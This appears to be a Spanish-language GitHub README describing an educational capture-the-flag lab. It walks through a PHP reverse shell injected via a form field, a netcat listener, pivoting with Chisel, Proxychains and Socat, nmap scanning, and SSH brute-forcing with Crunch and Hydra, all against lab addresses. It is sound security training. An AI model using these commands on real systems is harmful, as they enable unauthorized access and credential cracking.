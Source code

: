 # CTF-4
*Capture the flag* donde se trabaja el *pivoting* entre máquinas de la misma red, *reverse shell*, escucha de puertos, montaje de un servidor con *Python*, *Crunch*, *Hydra*.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-PHP-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-chisel-CD1414?style=for-the-badge&logo=chisel&logoColor=white" />
  <img src="https://img.shields.io/badge/-Proxychains-3EBBDF?style=for-the-badge&logo=proxychains&logoColor=white" />
  <img src="https://img.shields.io/badge/-nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Crunch-0080FF?style=for-the-badge&logo=crunch&logoColor=white" />
  <img src="https://img.shields.io/badge/-Hydra-77B6A8?style=for-the-badge&logo=hydra&logoColor=white" />
  <img src="https://img.shields.io/badge/-Socat-777BB4?style=for-the-badge&logo=socat&logoColor=white" />
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ dentro del mundo educativo. Se pretende conseguir un archivo (_flags_), dentro del entorno del usuario básico. Para ello, se deberá pivotar desde la máquina resuelta en el [CTF-3](https://github.com/Cibersegurata39/CTF-3) a la máquina de este nuevo reto y una vez dentro pasar al usuario básico.

## Que hemos aprendido?

- Realizar un *pivoting* entre dos máquinas de la misma red.
- Realizar una *reverse shell* con código *php*.
- Poner puertos en escucha.
- Montar un sevidor fácilmente con *Python*.
- Encontrar una máquina y enumerar sus puertos.
- Montar un diccionario a partir de una secuencia dada de caracteres.
- *Crackear* una contraseña.

## Herramientas utilizadas

- *Kali Linux*.
- *Pivoting*: *Python3*, *Chisel*, *Proxychains*, *Socat*.
- Enumeración: *Nmap*.
- Penetración: *Netcat*, *Crunch*, *Hydra*. 

## Steps

### Vulnerabilidades explotadas

Partiendo del primer formulario encontrado en el CTF-3, ejecuto una *reverse shell* con código **php**, indicando la dirección IP y el puerto de la máquina local que estará escuchando.

<code>;ls;php -r '$sock=fsockopen("10.0.2.15",1234);exec("/bin/sh -i <&3 >&3 2>&3");';</code>

![image](https://github.com/user-attachments/assets/8ec4b208-1dd2-47d4-8f79-9155f6f56acf)

Para poner en escucha el puerto 1234, utilizo **Netcat**.

<code>nc -lvnp 1234</code>

La conexión ha sido un éxito, esta muestra la IP de la máquina 172.18.0.2.

![image](https://github.com/user-attachments/assets/9eaefd34-4035-4094-af1e-db536c3b4a07)

Para **pivotar** entre máquinas, es necesario descargar el programa **Chisel** en la máquina atacante. Puesto que también se necesita en la máquina que acabamos de penetrar (máquina intermedia, a partir de ahora), se crea un servidor con **Pyhotn3** desde la carpeta donde se encuentra *Chisel* (máquina atacante). Este sevidor es necesario para poder descargar el programa en la máquina intermedia, ya que no dispone de esta herramienta y tampoco se puede descargar directamente desde ella, pues está muy capada.

<code>python3 -m http.server 8080</code>

![image](https://github.com/user-attachments/assets/7f85fb6c-c443-49e6-9a1f-174109bea616)

Puesto que tampoco dispone de los binarios <code>wget</code> o <code>curl</code>, se utiliza un pequeño código *php* para realizar la descarga ('descarga_archivo.php'). En el código se indica la dirección donde se encuentra *Chisel* (máquina atacante), así como donde guardarlo (máquina intermedia). Se guarda en la carpeta '/tmp' pues desde ahí se tienen permisos de ejecución.

Una vez descargado y otorgados los permisos de ejecución, lo lanzo desde la máquina anfitriona, como servidor, y pongo en escucha el puerto 3456 (por ejemplo).

<code>chisel server --reverse -p 3456</code>

![image](https://github.com/user-attachments/assets/a40614a5-773f-4d32-881f-1c3463a639bc)

También lo lanzo en la máquina intermedia, como cliente, indicándole la dirección IP y puerto de la máquina atacante. Además, con ‘R:socks’ indico que me de acceso a todas las IPs/puertos con las que esté conectada la máquina intermedia (conexión con la máquina víctima a la que se pretende conseguir llegar).

<code>. /chisel client 10.0.2.15:3456 R:socks</code>

![image](https://github.com/user-attachments/assets/d88edd57-7d66-4665-a25d-8ea6fcf3f85d)

Ahora la máquina anfitriona, por medio del puerto 3456, tiene visibilidad de las posibles conexiones de la máquina intermedia, como podría ser la máquina final.

Para hacer un barrido de IPs con el objetivo de encontrar la última máquina, debo utilizar la herramienta **Proxychains** para utilizar el túnel creado con *Chisel*. Se le indica su dirección IP y puerto (se muestra en la *shell* de la máquina atacante después de realizar la conexión), los cuales se añaden en el archivo de configuración.

<code>sudo nano /etc/proxychains4.conf</code>

Se descomenta la línea que contiene *Dynamic_chain* y se comenta la línea que contiene *static_chain*. Además, al final del archivo se añade ‘socks5 127.0.0.1 1080’ (dirección perteneciente al túnel creado).

![image](https://github.com/user-attachments/assets/1410a5c7-1d8a-4d02-bbee-368ca7cb7b7b)

Para utilzar ahora este túnel se utiliza el comando *Proxychains* y se lanza un *nmap* para hacer el barrido de IPs con la dirección de la máquina intermedia y así encontrar aquellas máquinas que estén en su misma red. Al utilizar *proxychains* sería como lanzar el *nmap* desde la propia máquina intermedia. Se indica que no haga reconocimiento *ping* y la máquina final es encontrada en la dirección 172.18.0.3.

<code>proxychains nmap 172.18.0.0/24 -Pn</code>

![image](https://github.com/user-attachments/assets/f133cc92-395e-4f6e-a3da-e846edcd3917)

Ahora se puede realizar un ataque más centrado en esta máquina y buscar qué puertos tiene abiertos y qué versiones corren en ellos.

<code>proxychains nmap 172.18.0.3 -Pn -sV -p-</code>

![image](https://github.com/user-attachments/assets/241f93d4-06fe-4b98-8ff3-f47a3f37af44)

Se encuentra un servicio *SSH* en el puerto 2222, por lo que se intenta la conexión por medio de *proxychains*. Aparece el inconveniente de que ninguna de las contraseñas encontradas en la base de datos sirven para tener acceso. Igual que en el anterior CTF (CTF-3) se encontró, por medio de *SQLMap*, la tabla con la bandera correspondiente, también se encontró una tabla con diferentes usuarios y contraseñas.

![image](https://github.com/user-attachments/assets/1e9d0fc7-495d-4009-a32f-7a9210c3451b)

En tal caso, se va a probar diferentes combinaciones de los caracteres de cada contraseña para ver si alguna es la correcta, empezando con el usuario Pablo pues es el más probable de éxito. Para conseguir la permuta de caracteres se hace uso de la herramienta **Crunch**, la cual creará un diccionario con todas las posibilidades. Indico que las *passwords* generadas tengan una longitud (mínima y máxima) de 8, la contraseña original a partir de la cual se formarán las demás y el nombre del dicionario que se creará.

<code>crunch 8 8 "tefeme\!." -o pwds.txt</code>

![image](https://github.com/user-attachments/assets/bb9dd4c4-0072-41ec-b938-97572b8b82ad)

Una vez creado el diccionario 'pwds.txt', se utiliza este para encontrar la contrasña, por medio de fuerza bruta. Esto es posible gracias a la ayuda de la herramienta **Hydra**. En el comando se indica la IP y el servicio a *crackear*, el usuario (en este caso, como se va a probar con Pablo, se pasa '-l' en minúscula), la contraseña (puesto que es la que se quiere encontrar, se indica con '-P' en mayúscula) y finalmnente se informa del puerto donde se conectará. Por aclarar, si se conoce el usuario o la contraseña, estos se indican con la letra en minúscula. Por contra, si no se conocen se indica con mayúscula.

<code>proxychains hydra 172.18.0.3 ssh -l pablo -P pwds.txt -s 2222</code>

![image](https://github.com/user-attachments/assets/b8957d3e-b8fc-479f-b1d6-8295caf4f3e2)

*Hydra* ha encontrado la contraseña correcta: 'tefeme.!'. Ya sólo queda conectarse vía SSH con esta password y buscar la *flag*.

![image](https://github.com/user-attachments/assets/5881e81f-6cee-4265-be5b-4de96ea09c31)

**Flag: 4d8c72671245d9d1b8e03a826db9d5ecead28c8c**

### Alternativa Socat

Otra herramienta que permite el *pivoting* y se puede utilizar como alternativa a *Chisel* es **Socat**, la cual si se encuentra en la máquina intermedia. Desde esta se indica el puerto que se pone en escucha y la IP-puerto de la máquina final a la que se pretende conectar.

<code>socat tcp-l:222,fork tcp:172.18.0.3:2222</code>

![image](https://github.com/user-attachments/assets/c658cc35-ef0a-4189-8ffc-eb6c821eb6b0)

De esta manera, desde la máquina atacante se puede conectar váa *ssh* a la máquina intermedia por el puerto que está en escucha. Y este, a su vez, conectar con el puerto de la máquina final indicado. 

<code>ssh pablo@172.18.0.2 -p 222</code>

![image](https://github.com/user-attachments/assets/26da0e19-0014-488e-b7c5-af1c9189a428)

Una vez dentro ya se puede buscar la bandera.
